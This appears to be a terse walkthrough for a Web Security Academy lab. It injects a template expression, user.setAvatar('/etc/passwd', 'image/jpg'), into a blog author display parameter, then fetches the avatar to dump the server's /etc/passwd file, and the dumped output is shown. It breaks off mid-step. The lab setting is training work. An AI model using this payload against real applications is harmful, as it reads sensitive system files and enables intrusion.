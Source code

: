 ```bash
Stack trace:
#0 /home/carlos/avatar_upload.php(19): User->setAvatar()
#1 main
  thrown in /home/carlos/User.php on line 28

Go to: Repeater

POST /my-account/change-blog-post-author-display HTTP/1.1

blog-post-author-display=user.setAvatar('/etc/passwd')&csrf=2lBmtB05EzcuAUQDwapveJa0k0t2dTvm

Go to:

https://0a5d00a803cc5fa5c0c323d000350024.web-security-academy.net/post?postId=10

Refresh the page
Change:

blog-post-author-display=user.setAvatar('/etc/passwd')&csrf=2lBmtB05EzcuAUQDwapveJa0k0t2dTvm

To

blog-post-author-display=user.setAvatar('/etc/passwd', 'image/jpg')&csrf=2lBmtB05EzcuAUQDwapveJa0k0t2dTvm

Refresh the page
No error
Go to: Repeater
Find:

GET /avatar?avatar=wiener HTTP/1.1

Send

root:x:0:0:root:/root:/bin/
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:12001:12001::/home/peter:/bin/
carlos:x:12002:12002::/home/carlos:/bin/
user:x:12000:12000::/home/user:/bin/
elmer:x:12099:12099::/home/elmer:/bin/
academy:x:10000:10000::/academy:/bin/
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin

Go to: Repeater
Find:
```